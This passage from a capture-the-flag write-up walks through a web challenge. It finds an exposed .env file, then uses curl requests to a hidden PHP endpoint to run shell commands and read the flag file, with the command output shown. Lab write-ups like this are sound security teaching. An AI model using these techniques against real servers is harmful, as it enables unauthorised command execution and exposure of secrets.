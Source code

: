 ## Hidden In the Web

>Set up your toolkit, and get ready to start the audit...
>
>To access the challenge, click on the following link: [http://example.com:10101](http://example.com:10101)

![[Screenshot 2022-12-01 at 12-35-41 Hidden In the Web - hackrocks.png]

So, this time we get a web challenge with greet us with a _under construction_ page. Looking at the source code of the page we get an obvious hint:

```html
<!-- 
Hey Marcus, dont forget to change the permission of environment. thanks!
Sincerely, Adrian
 -->
```

So _Marcus_ must change the permissions to some file. Let's get a dir buster running. But, let's start by the simpliest scan, open [OWASP Zap](https://owasp.org/www-project-zap/) and do a default automatic scan give us an exposed sensitive file, `.env`. The content of that file was juicy, as expected:

```bash
❯ curl 'http://example.com:10101/.env'
PATH=/s3cr3t_3ntr4nce.php
CMD=c0mm
METHOD=GET
```

So we have a path, `s3cr3t_3ntr4nce.php` that gives us command execution! Let's mess around a litte in the folder directory:

```bash
❯ curl 'http://example.com:10101/s3cr3t_3ntr4nce.php?c0mm=ls%20%2F..'
bin
boot
dev
etc
flag.txt
home
lib
...
```

Oh! An obvious `flag.txt` file! 

```bash
❯ curl 'http://example.com:10101/s3cr3t_3ntr4nce.php?c0mm=cat%20%2Fflag.txt'
flag{m4rcus_f0rg0t_t0_change_perm_env_and_igot_shell}
```

Printing the contents, we get our flag, `flag{m4rcus_f0rg0t_t0_change_perm_env_and_igot_shell}`

## Talkies Talk
